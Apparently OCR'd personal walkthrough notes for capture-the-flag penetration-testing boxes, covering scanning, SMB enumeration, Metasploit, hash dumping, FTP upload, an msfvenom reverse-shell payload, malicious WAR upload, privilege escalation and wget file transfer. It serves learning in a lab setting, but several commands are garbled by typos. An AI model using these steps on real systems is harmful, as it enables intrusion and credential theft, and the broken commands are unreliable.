 Walkthrough notes 

    Start with a simple nmap scan namp –A –T4 –p- IP 

        Should scan UDP as well, as –sU to the beginning  

        -A is useful because it runs scripts and gets software and version numbers  

        Message signing disabled  

            Dangerous, could give access to a shell  

    Run smbclient -L \\\\IP\\ 

        Smb can be very vulnerable  

        NT_STATUS_INVALID_PARTAMETER 

            Means you're not getting in and that's ok 

        Enum4linux might work  

        Metasploit to run smb_version to get the smb_version  

            Got a windows version but not always an smb version 

    Take what information you have found and search [service info] exploit 

        Look for exploitdb.com or rapid7 

        If you find a good exploit find it on metasploit and see what you can do  

            Make sure to set a target unless automatic targeting is working  

    Windows: getui to find the user  

        Make sure that the Meterpreter matches the Architecture, makes things easier 

    Linux 

        Locate root.txt or change to the root foldre 

            Updatedb to update the locate db 

        Locate user.txt 

        Those file outputs are your flags  

    Hashdump 

        Dumps that hashes to get user password hashes  

        Good to try to pass the hash around to see if it helps  

        Type user.txt is the flag to be submitted in the CTF 

    If you're ok with being detected than brute forcing a ssh port could be good 

        Did they find you doing 1000 bad passwords? Why not, good for the report  

    Devel 

        Shell code generation  

        Enumeration  

        Still starting with the nmap scan  

        Website 

            First go to the website  

            Poop hygine to have default webpages, makes you think lazy engineer and maybe will have other issues 

                Might have a hidden directory because of the default page  

            Time to do a dirbuster test to find them  

                Gobuster or dirb is the other one 

                Wordlist at usr/share/wordlist/dirbuster/ 

                Windows machine so PHP and IIS7 isn't right, use asm, asmx, asp, aspx, txt, zip, backup, ... 

        Ftp 

            Fpt server might let us replace the IIs7 picture with something else  

                Ftp IP 

                Anonymous, password blank anonymous  

                Put dog.jpg  

                Ls to see that it's transferred  

                The server executed on a picture file so you could put some malware on the machine and have the server execute it 

            Msfvenom 

                Look for online cheat sheets for payload generation 

                Msfvenom –p windows/meterperter/reverse_tcp LHOST=IP LPORT=4444 –f apsx > ex,aspx 

                    Put into a file so that it will be run instead of just printing it to console  

                Use metasploit's exploit handler to make a listener  

                    Set payload  ^ 

                    Set LGOST and run  

                    Move the aspx file  

                        Good to transfer a file via binary over ascii 

                    Go to the IP/filename  

                        Executes and gets the shell  

                Use the psot/multi/recon to get some post enumeration to find something else to get in   

    Tomcat  

        Good way is to get to the default page and try default creds  

        Upload a malicious WAR file to get a backdoor shell access  

    Typically port 80 is the way in if only 22 (ssh) and 80 are returned from nmap  

    When not root user find the os version to start getting privileged esclation  

        History is a good command to run 

        Cat .bash_history 

        Sudo –l  

            See what commands can be run without passwords  

    Transfer files to a machine with shell access  

        Start a python server –> python –m SimpleHTTPServer 80 

        Go to target system then wget http://IP/filename 

 

 

Get wapalizer 

 

    Good scripts to get some privileged escalation  

        LinEnum.sh 

        Linuxprivchecker.py 

        Linux Privilege Esclation Scrips blow on netsec.ws has more resources  

            Check out the g0tmilk blog 

    For windows use fuzzysecurity 

Flags: 

    Linux 

        Normally on /home/user/user.txt 

        /root/root.txt 

    Windows  

        C:\Users\Username\Desktop\user.txt 

        C:\Users\Administrator\Desktopoot.txt 

        Type output the content  